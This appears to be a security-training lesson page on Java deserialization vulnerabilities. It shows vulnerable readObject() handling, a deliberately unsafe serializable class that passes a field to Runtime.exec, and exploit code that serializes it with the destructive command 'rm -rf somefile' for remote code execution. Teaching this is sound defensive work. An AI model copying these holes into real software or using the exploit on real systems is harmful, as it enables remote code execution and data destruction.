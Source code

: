 == The Simplest Exploit

=== Vulnerable code

The following is a well-known example for a Java Deserialization vulnerability.

[source,java]
----
InputStream is = request.getInputStream();
ObjectInputStream ois = new ObjectInputStream(is);
AcmeObject acme = (AcmeObject)ois.readObject();
----

It is expecting an `AcmeObject` object, but it will execute `readObject()` before the casting ocurs.
If an attacker finds the proper class implementing dangerous operations in `readObject()`, he could serialize that object and force the vulnerable application to performe those actions.

=== Class included in ClassPath

Attackers need to find a class in the classpath that supports serialization and with dangerous implementations on `readObject()`.

[source,java]
----
package org.dummy.insecure.framework;

import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;
import java.io.ObjectInputStream;
import java.io.Serializable;
import java.time.LocalDateTime;

public class VulnerableTaskHolder implements Serializable {

	private static final long serialVersionUID = 1;

	private String taskName;
	private String taskAction;
	private LocalDateTime requestedExecutionTime;
	
	public VulnerableTaskHolder(String taskName, String taskAction) {
		super();
		this.taskName = taskName;
		this.taskAction = taskAction;
		this.requestedExecutionTime = LocalDateTime.now();
	}

	private void readObject( ObjectInputStream stream ) throws Exception {
        //deserialize data so taskName and taskAction are available
		stream.defaultReadObject();
		
		//blindly run some code. #code injection
		Runtime.getRuntime().exec(taskAction);
     }
}
----

=== Exploit

If the java class shown above exists, attackers can serialize that object and obtain Remote Code Execution.

[source,java]
----
VulnerableTaskHolder go = new VulnerableTaskHolder("delete all", "rm -rf somefile");

ByteArrayOutputStream bos = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(bos);
oos.writeObject(go);
oos.flush();
byte[] exploit = bos.toByteArray();
----